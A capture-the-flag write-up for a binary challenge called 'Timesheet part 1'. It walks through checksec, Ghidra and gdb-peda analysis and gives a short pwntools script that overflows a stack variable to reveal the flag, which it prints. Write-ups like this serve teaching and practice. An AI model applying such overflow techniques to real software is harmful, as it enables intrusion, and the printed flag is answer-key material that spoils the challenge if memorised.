 # Challenge

Timesheet part 1

# Description 

In the ctf the challenge wasn't exactly like this, there were issues with the initial program and I had to rewrite it a bit.
In order to make it 'easier' to the contestants the code was 97 (a). I changed it in this writeup to make the underlying technique clear.

# Solution

The challenge gives us a binary file that we need to exploit.
In the ctf the contestants get a file where the flag is obscured, in this writeup the real binary is used.
## checksec
If we use checksec on this file we can see the protective measures that the challenge has enabled.
We see that the stack canary is enabled so is NX and PIE. These measures protect against:

Canary: protects the return address for buffer overflows.\
NX: protects the stack from being executed.\
PIE: makes the position of the area's random.

![checksec](../images/checksec.png)

## Ghidra
Now lets take a look at what's going on inside the binary. We will use ghidra to decompile and reverse engineer the code a bit.
The image below shows the decompiled code. From there one thing is obvious in the main function and that is: scanf is used to read a char.

Another thing that we will see is that selection (the var we have control over) is located right before the code we need to enter to get the flag.
In order to get the flag we need to put the character 5 in the selection variable and overflow the code with 0x1e240. In order to do this we will spin up 
gdb-peda and take a look at the inner workings of the program.

![ghidra](../images/decompile.png)

## debugging with gdb-peda

The image below shows how the stack looks after we write "5abcdefg" to the program. I have drawn boxes around the values to indicate what they represent.

Green: the value 5 (the location of the selection variable)\
Blue (dark): 0x64636261 (this is 'abcd' in with the least significant byte (LSB) on the left)\
Light blue: 0x676665 'efg'\
Purple: a pointer to a pointer to the value of the stack canary. If we overwrite this, we will get a "stack smash detected" error.
red: the return address.

![debugging](../images/stack_after_write.png)


Important to note form this is that the processor is little endian. That means if we want to write the code 0x1e240 
we will have to send it as 0x40e201. That will be important for the exploit (the contestants did not have to deal with this).

## Exploit

The exploit is sown in the code snippet below. We use pwntools to load the binary and exploit it. 
First we load the timesheet and define our exploit string we want to send. first we want to send 5 followed by our code keeping in mind
that the processor works in little endian. Next up we receive the values until we find > (prompt for input). We send our exploit string.
And collect the flag by going in interactive mode (we get control over the program).

```Python
from pwn import *

p = process('./timesheet')
exploit_string = "\x35\x40\xe2\x01"

p.recvuntil(b'>')
p.sendline(exploit_string)

p.interactive()
```

The output of the script looks like this: 

```commandline
[x] Starting local process './timesheet'
[+] Starting local process './timesheet': pid 9453
[*] Switching to interactive mode
 ctf{buff3r_0v3r_fl0w1ng_th3_c0ntr0l_v4ri4bl3}
Welcome to the Timesheet portal
Chose your option:

1. Manual entry
2. Random entry
3. Send timesheet
4. Exit
> 
```

# Flag 

 ctf{buff3r_0v3r_fl0w1ng_th3_c0ntr0l_v4ri4bl3}
